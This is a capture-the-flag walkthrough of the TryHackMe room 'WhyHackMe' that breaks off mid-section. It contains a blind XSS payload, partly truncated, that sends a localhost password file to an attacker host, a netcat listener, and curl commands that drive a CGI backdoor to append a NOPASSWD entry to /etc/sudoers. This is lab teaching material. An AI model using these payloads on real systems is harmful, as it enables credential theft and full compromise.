# TryHackMe — WhyHackMe

| Field          | Details                                                             |
| -------------- | ------------------------------------------------------------------- |
| **Platform**   | TryHackMe                                                           |
| **Room**       | [WhyHackMe](https://tryhackme.com/room/whyhackme)                   |
| **Difficulty** | Medium                                                              |
| **Category**   | FTP Enumeration, Blind XSS, TLS Decryption, iptables, CGI Injection |
| **OS**         | Linux                                                               |

## Introduction

WhyHackMe is a free, intermediate-level room on TryHackMe. It covers a range of techniques including anonymous FTP enumeration, blind XSS exploitation, TLS traffic decryption, firewall manipulation with iptables, and CGI-based command injection. It's a well-rounded room that rewards careful enumeration and lateral thinking at every stage.

In this write-up, I'll walk through my methodology step by step, explaining the reasoning behind each action rather than just listing commands.

---

## Table of Contents

- [Reconnaissance](#reconnaissance)
- [Web Enumeration](#web-enumeration)
- [Web Exploitation — Blind XSS via Username](#web-exploitation--blind-xss-via-username)
- [Initial Access](#initial-access)
- [Privilege Escalation](#privilege-escalation)
- [Beyond Root — Cleaning Up the Backdoor](#beyond-root--cleaning-up-the-backdoor)
- [Flags](#flags)

---

## Reconnaissance

We start with an aggressive full-port Nmap scan to discover every open port on the target.

```bash
nmap -sS -vv -T4 -p- $target --min-rate 2000 -oN initial.txt
```

```
# Nmap 7.95 scan initiated Sat May 23 17:04:53 2026 as: /usr/lib/nmap/nmap --privileged -sS -vv -T4 -p- --min-rate 2000 -oN initial.txt 10.48.171.167
Nmap scan report for 10.48.171.167
Host is up, received echo-reply ttl 62 (0.052s latency).
Scanned at 2026-05-23 17:04:53 +0545 for 17s
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE REASON
21/tcp    open     ftp     syn-ack ttl 62
22/tcp    open     ssh     syn-ack ttl 62
80/tcp    open     http    syn-ack ttl 62
41312/tcp filtered unknown no-response

Read data files from: /usr/share/nmap
# Nmap done at Sat May 23 17:05:10 2026 -- 1 IP address (1 host up) scanned in 16.93 seconds
```

Three ports are open — FTP, SSH, and HTTP — and port 41312 is being actively filtered by a firewall. That filtered port is worth keeping in mind once we gain a foothold.

Next, we run an aggressive scan against the discovered open ports to fingerprint services and versions.

```bash
nmap -sS -vv -T4 -p 21,22,80 -A $target -oN advanced.txt
```

```
# Nmap 7.95 scan initiated Sat May 23 17:05:56 2026 as: /usr/lib/nmap/nmap --privileged -sS -vv -T4 -p 21,22,80 -A -oN advanced.txt 10.48.171.167
Nmap scan report for 10.48.171.167
Host is up, received reset ttl 62 (0.053s latency).
Scanned at 2026-05-23 17:05:57 +0545 for 15s

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.182.17
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDVPKwhXf+lo95g0TZQuu+g53eAlA0tuGcD2eIcVNBuxuq46t6mjnkJsCgUX80RB2wWF92OOuHjETDTduiL9QaD2E/hPyQ6SwGsL/p+JQtAXGAHIN+pea9LmT3DO+/L3RTqB1VxHP/opKn4ZsS1SfAHMjfmNdNYALnhx2rgFOGlTwgZHvgtUbSUFnUObYzUgSOIOPICnLoQ9MRcjoJEXa+4Fm7HDjo083hzw5gI+VwJK/P25zNvD1udtx3YII+cnOoYH+lT2h/gPcJKarMxDCEtV+3ObVmE+6oaCPx+eosZ+45YuUoAjNjE/U/KAWIE+Y0Xav87hQ/3ln4bzB8N5WV41/WC5zqIfFzuY+ewx6Q6u6t7ijxZ+AE2sayFIqIgmXKWKq3NM9fgLgUooRpBRANDmlb9xI1hzKobeMPOtDkaZ+rIUxOLtUMIkzmdRAIElz3zlxBD+HAqseFrmXKKvLtL6JllEqtEZShSENNZ5Rbh3nBY4gdiPliolwJkrOVNdhE=
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFynIMOUWPOdqgGO/AVP9xcS/88z57e0DzGjPCTc6OReLmXrB/egND7VnoNYnNlLYtGUILQ1qoTrL7hC+g38pxc=
|   256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKTv0OsWH1pAq3F/Gpj1LZuPXHZZevzt2sgeMLwWUCRt
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome!!
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc|phone
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X (96%), HP embedded (93%), Google Android 10.X|11.X|12.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/h:hp:p2000_g3 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/o:linux:linux_kernel:5.4 cpe:/o:linux:linux_kernel:2.6.32
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.19 (96%), Linux 4.15 (95%), Linux 5.4 (95%), HP P2000 G3 NAS device (93%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 10 - 11 (Linux 4.14) (92%), Android 9 - 10 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Linux 2.6.32 (92%), Linux 2.6.32 - 3.13 (92%)
May 23 17:06:12 2026 -- 1 IP address (1 host up) scanned in 16.24 seconds
```

Anonymous FTP with a readable file immediately stands out. Let's start there.

```
┌──(neerajan@neerajan)-[~/Documents/CTF/WhyHackMe]
└─$ ftp 10.48.144.233
Connected to 10.48.144.233.
220 (vsFTPd 3.0.3)
Name (10.48.144.233:neerajan): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||45696|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
226 Directory send OK.
ftp> get update.txt
local: update.txt remote: update.txt
229 Entering Extended Passive Mode (|||43163|)
150 Opening BINARY mode data connection for update.txt (318 bytes).
100% |***********************************|   318        3.45 KiB/s    00:00 ETA
226 Transfer complete.
318 bytes received in 00:00 (2.28 KiB/s)
ftp>
```

We log in with the username `anonymous` and no password, then retrieve the file.

```bash
cat update.txt
```

```
Hey I just removed the old user mike because that account was compromised and
for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt
and don't worry this file is only accessible by localhost(127.0.0.1), so nobody
else can view it except me or people with access to the common account.
- admin
```

This is a critical note. Credentials are stored at `/dir/pass.txt`, but the file is restricted to localhost only. We can't access it directly from our machine — but if we can force the server itself to make the request, we can retrieve it. Server-Side Request Forgery (SSRF) or XSS with a `fetch()` payload are both potential vectors. Let's explore the web application first.



Visiting port 80, we find a personal blog website.



Navigating to `/dir/pass.txt` confirms it's inaccessible externally like the note said — we get a `403 Forbidden`.



Visiting `blog.php`, we found what appeared to be a random blog page. We also noticed a comment feature, but it required authentication before use. To continue our enumeration, we ran an ffuf scan to discover hidden directories and files on the server.

---

## Web Enumeration

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.48.171.167/FUZZ -rate 2000 -t 200 -e .php
```

```
index.php               [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 62ms]
blog.php                [Status: 200, Size: 3102, Words: 422, Lines: 23, Duration: 53ms]
login.php               [Status: 200, Size: 523, Words: 45, Lines: 21, Duration: 53ms]
register.php            [Status: 200, Size: 643, Words: 36, Lines: 23, Duration: 53ms]
dir                     [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 52ms]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 52ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 53ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 52ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 51ms]
```

`register.php` is interesting. We create an account and log in.





---

## Web Exploitation — Blind XSS via Username

After logging in, we can see a comment section on `blog.php`. There's a note indicating that an admin is actively monitoring the comments — this is a classic hint toward XSS.



Our initial attempt failed because the comment input was being HTML-encoded. Looking more closely, we noticed that our username was also reflected in the comment section. This made us consider the possibility of Blind XSS, so we decided to test the username field for injection.



We register a new account with a basic XSS payload as the username to confirm the vulnerability:

```html
<script>
  alert('hi')
</script>
```


When we post a comment, the alert fires — the username field is vulnerable to stored XSS. So we craft a payload that makes the admin's browser fetch the password file and send its contents back to us:

```html
r.text()).then(d=>fetch('http://<ATTACKER_IP>/collect?data='+encodeURIComponent(d)))
"
/>
```



We register a new account with this as the username, post a comment to trigger it, and set up a listener on our machine:

```bash
sudo nc -lvp 80
```

After a short wait, we receive the admin's request:

```
listening on [any] 80 ...
10.48.171.167: inverse host lookup failed: Unknown host
connect to [192.168.182.17] from (UNKNOWN) [10.48.171.167] 53444
GET /collect?data={------REDACTED------} HTTP/1.1
Host: 192.168.182.17
Connection: keep-alive
Origin: http://127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/71.0.3542.0 Safari/537.36
Accept: */*
Referer: http://127.0.0.1/blog.php
Accept-Encoding: gzip, deflate
```

URL-decoding the `data` parameter gives us credentials for the `jack` user.

---

## Initial Access

```bash
ssh jack@<TARGET_IP>
```

```
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 25 May 2026 02:33:49 AM UTC

  System load:  0.97               Processes:             134
  Usage of /:   79.7% of 11.21GB   Users logged in:       0
  Memory usage: 34%                IPv4 address for eth0: 10.48.190.188
  Swap usage:   0%

64 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Last login: Mon Jan 29 13:44:19 2024
```

We log in successfully and immediately find the user flag:

```bash
jack@ubuntu:~$ ls -la
```

```
total 32
drwxr-xr-x 4 jack jack 4096 Aug 17  2023 .
drwxr-xr-x 3 root root 4096 Aug 17  2023 ..
lrwxrwxrwx 1 root root    9 Mar 14  2023 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 jack jack 3771 Feb 25  2020 .bashrc
drwx------ 2 jack jack 4096 Mar 15  2023 .cache
drwxrwxr-x 3 jack jack 4096 Aug 16  2023 .local
-rw-r--r-- 1 jack jack  807 Feb 25  2020 .profile
-rw-r--r-- 1 jack jack   33 Mar 14  2023 user.txt
```

---

## Privilege Escalation

The first thing we did was check the sudo permissions assigned to this user.

```bash
sudo -l
```

```
Matching Defaults entries for jack on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jack may run the following commands on ubuntu:
    (ALL : ALL) /usr/sbin/iptables
```

`jack` can run `iptables` as root. This isn't directly exploitable for privilege escalation via GTFOBins, but it lets us manage the firewall — which means we can unblock port 41312.

```bash
jack@ubuntu:/opt$ ls -la
```

```
total 40
drwxr-xr-x  2 root root  4096 Aug 16  2023 .
drwxr-xr-x 19 root root  4096 Mar 14  2023 ..
-rw-r--r--  1 root root 27247 Aug 16  2023 capture.pcap
-rw-r--r--  1 root root   388 Aug 16  2023 urgent.txt
```

While exploring the system, we found two interesting files in the `/opt` directory: `urgent.txt` and `capture.pcap`. We started by reviewing `urgent.txt`:

```bash
jack@ubuntu:/opt$ cat urgent.txt
```

```
Hey guys, after the hack some files have been placed in /usr/lib/cgi-bin/ and
when I try to remove them, they wont, even though I am root. Please go through
the pcap file in /opt and help me fix the server. And I temporarily blocked
the attackers access to the backdoor by using iptables rules. The cleanup of
the server is still incomplete I need to start by deleting these files first.
```

This likely explained why port 41312 was blocked by the firewall. We then transferred `capture.pcap` to our attacker machine to analyze the captured traffic.



When opening the capture in Wireshark, we observed that it contained encrypted TLS traffic, making it unreadable. We then returned to the target machine and investigated the Apache configuration to gather more details about the service running on port 41312.

```bash
cat /etc/apache2/sites-enabled/000-default.conf
```

```apache
<VirtualHost *:80>
 ServerAdmin webmaster@localhost
 DocumentRoot /var/www/html
 ScriptAlias "/cgi-bin/" "/usr/local/apache2/cgi-bin/"
 ErrorLog /dev/null
</VirtualHost>

Listen 41312
<VirtualHost *:41312>
        ServerName www.example.com
        ServerAdmin webmaster@localhost
        ErrorLog /dev/null
        SSLEngine on
        SSLCipherSuite AES256-SHA
        SSLProtocol -all +TLSv1.2
        SSLCertificateFile /etc/apache2/certs/apache-certificate.crt
        SSLCertificateKeyFile /etc/apache2/certs/apache.key
        ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
        AddHandler cgi-script .cgi .py .pl
        DocumentRoot /usr/lib/cgi-bin/
        <Directory "/usr/lib/cgi-bin">
                AllowOverride All
                Options +ExecCGI -Multiviews +SymLinksIfOwnerMatch
                Order allow,deny
                Allow from all
        </Directory>
</VirtualHost>
```

We saw that the document root was configured as `/usr/lib/cgi-bin`, which was not accessible. However, we also discovered an SSL private key at `/etc/apache2/certs/apache.key`.

```bash
jack@ubuntu:/opt$ ls -la /etc/apache2/certs/apache.key
```

```
-rw-r--r-- 1 root root 3272 Feb 26  2022 /etc/apache2/certs/apache.key
```

It was readable for us. Since the traffic was using `AES256-SHA`, we could use this key to decrypt the TLS traffic. We transferred it to our attacker machine and loaded the RSA key into Wireshark by navigating to `Edit → Preferences → Protocols → TLS → RSA Keys List`.



After doing so, we were able to decrypt and view the traffic.





With the traffic decrypted, we can see the attacker's HTTP requests to the CGI script on port 41312, including the endpoint and parameters used to execute commands.

```bash
jack@ubuntu:/opt$ ss -tunlp | grep 41312
```

```
tcp   LISTEN 0      511               0.0.0.0:41312        0.0.0.0:*
```

We confirmed that the service was listening on port 41312, but attempts to connect resulted in a hanging connection. We examined the firewall rules:

```bash
jack@ubuntu:/opt$ sudo iptables -L
```

```
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
DROP       tcp  --  anywhere             anywhere             tcp dpt:41312
ACCEPT     all  --  anywhere             anywhere
ACCEPT     all  --  anywhere             anywhere             ctstate NEW,RELATED,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:ssh
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:http
ACCEPT     icmp --  anywhere             anywhere             icmp echo-request
ACCEPT     icmp --  anywhere             anywhere             icmp echo-reply
DROP       all  --  anywhere             anywhere

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
ACCEPT     all  --  anywhere             anywhere
```

Port 41312 was configured to drop all TCP connections. We remove the blocking rule:

```bash
sudo iptables -D INPUT -p tcp --dport 41312 -j DROP
```

After executing it, port 41312 started responding. Since it was using HTTPS, we connected accordingly. We replicate the attacker's request from the pcap to check what user the CGI script runs as:

```bash
curl -k "https://127.0.0.1:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=sudo%20-l"
```

```
<h2>Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
<h2>
```

The `www-data` user has full passwordless sudo. We use it to grant `jack` the same privileges:

```bash
# URL-encoded version of: echo "jack ALL=(ALL:ALL) NOPASSWD: ALL" | sudo tee -a /etc/sudoers
curl -k "https://127.0.0.1:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=echo%20%22jack%20ALL%3D%28ALL%3AALL%29%20NOPASSWD%3A%20ALL%22%20%7C%20sudo%20tee%20-a%20%2Fetc%2Fsudoers"
```

After running the above command, we check jack's privileges and spawn bash as root:

```bash
jack@ubuntu:/opt$ sudo -l
```

```
Matching Defaults entries for jack on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jack may run the following commands on ubuntu:
    (ALL : ALL) /usr/sbin/iptables
    (ALL : ALL) NOPASSWD: ALL
```

```bash
jack@ubuntu:/opt$ sudo bash
root@ubuntu:/opt# cd /root
root@ubuntu:~# ls -la
```

```
total 56
drwx------  7 root root 4096 Jan 29  2024 .
drwxr-xr-x 19 root root 4096 Mar 14  2023 ..
lrwxrwxrwx  1 root root    9 Mar 14  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r--  1 root root  172 Mar 15  2023 bot.py
drwx------  3 root root 4096 Aug 16  2023 .cache
drwx------  3 root root 4096 Aug 17  2023 .config
-rw-------  1 root root   33 Jan 29  2024 .lesshst
drwxr-xr-x  3 root root 4096 Mar 14  2023 .local
lrwxrwxrwx  1 root root    9 Mar 14  2023 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-r--------  1 root root   33 Mar 14  2023 root.txt
-rw-r--r--  1 root root   66 Jan 29  2024 .selected_editor
drwx------  5 root root 4096 Mar 14  2023 snap
drwx------  2 root root 4096 Mar 14  2023 .ssh
-rwxr-xr-x  1 root root   82 Jan 29  2024 ssh.sh
```

And with that, we've rooted the machine.

---

## Beyond Root — Cleaning Up the Backdoor

The `urgent.txt` note mentioned that even the admin (as root) couldn't delete the backdoor script. Let's fix that.

```bash
root@ubuntu:/usr/lib/cgi-bin# ls -la
```

```
total 12
drwxr-x---  2 root h4ck3d 4096 Aug 16  2023 .
drwxr-xr-x 91 root root   4096 Jan 29  2024 ..
-rwxr-xr-x  1 root root    485 Sep  5  2023 5UP3r53Cr37.py
```

```bash
root@ubuntu:/usr/lib/cgi-bin# rm 5UP3r53Cr37.py
```

```
rm: cannot remove '5UP3r53Cr37.py': Operation not permitted
```

We own the file and we're root, but still getting "Operation not permitted". Let's check file attributes:

```bash
root@ubuntu:/usr/lib/cgi-bin# lsattr 5UP3r53Cr37.py
```

```
--------------e----- 5UP3r53Cr37.py
```

No immutable flag on the file itself. What about the directory?

```bash
